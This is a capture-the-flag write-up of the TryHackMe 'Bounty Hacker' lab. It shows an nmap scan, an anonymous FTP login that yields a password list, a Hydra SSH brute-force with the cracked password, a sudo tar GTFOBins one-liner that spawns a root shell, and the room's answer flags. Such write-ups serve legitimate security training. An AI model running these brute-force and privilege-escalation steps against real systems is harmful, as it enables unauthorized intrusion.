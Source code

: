 # [Bounty Hacker CTF] - Writeup

**Platform:** TryHackMe
**Difficulty:** Easy
**Date Completed:** [15.09.2025]  
**Skills Used:** [Password cracking, Privilege escalation]  
**Tools Used:** [Hydra, Nmap]

## Executive Summary

Successfully compromised a Linux system by exploiting anonymous FTP access to obtain credential lists, then performed SSH brute-force attack using Hydra to gain user access as 'lin'. Escalated privileges through misconfigured sudo permissions allowing tar command execution, leveraging GTFOBins techniques to spawn a root shell and achieve full system compromise.

## Initial Reconnaissance

### Port Scanning

We run our first scan using nmap with default options (I also tried to run it with other options but didn't find additional interesting information).

```bash
nmap 10.10.160.235
Starting Nmap 7.80 ( https://nmap.org ) at 2025-09-15 15:17 CEST
Nmap scan report for 10.10.160.235
Host is up (0.094s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.07 seconds
```

**Results:**

- Port 21: FTP
- Port 22: SSH
- Port 80: HTTP

## Vulnerability Analysis

As the webpage seems more "decorative", we will start by investigating the ftp port. One little trick I learned in my previous CTFs is to try to login as anonymous user, which gives access to publicly accessible files.

```bash
ftp 10.10.160.235
Connected to 10.10.160.235.
220 (vsFTPd 3.0.5)
Name (10.10.160.235:armould): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get task.txt | cat
usage: get remote-file [local-file]
ftp> get task.txt task.txt
local: task.txt remote: task.txt
550 Permission denied.
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |***********************************|    68       41.06 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.84 KiB/s)
ftp> get locks.txt locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |***********************************|   418        4.10 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (4.32 KiB/s)
ftp>
ftp> exit
221 Goodbye.
```

We got 2 different files :

- task.txt :

```bash
cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

Which enables us to answer to the CTF's first question :
Who wrote the task list? lin

- locks.txt :

```bash
cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```

These look like passwords to me, so I am going to try to bruteforce the ssh process by using lin as username and the content of locks.txt as password. I will use Hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.160.235
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-15 16:10:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.160.235:22/
[22][ssh] host: 10.10.160.235   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-15 16:10:44
```

It worked ! So we can answer the next 2 questions :

What service can you bruteforce with the text file found? ssh
What is the users password? RedDr4gonSynd1cat3

We can now connect to the machine as lin :

```bash
ssh lin@10.10.160.235
lin@10.10.160.235's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Mon Aug 11 12:32:35 2025 from 10.23.8.228
```

And the user flag is in /home/lin/user.txt :

User tag : THM{CR1M3_SyNd1C4T3}

## Privilege Escalation

To try to get root access, we run sudo -l in order to see what commands my user could run as root. Luckily enough, there is one : tar. By looking the software up on GTFOBins, I found this command to escalate :

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

The --checkpoint-action=exec=/bin/sh runs a shell without dropping its elevated privileges and bingo : we have root access :) And the flag is in /root/root.txt.

Root tag : THM{80UN7Y_h4cK3r}
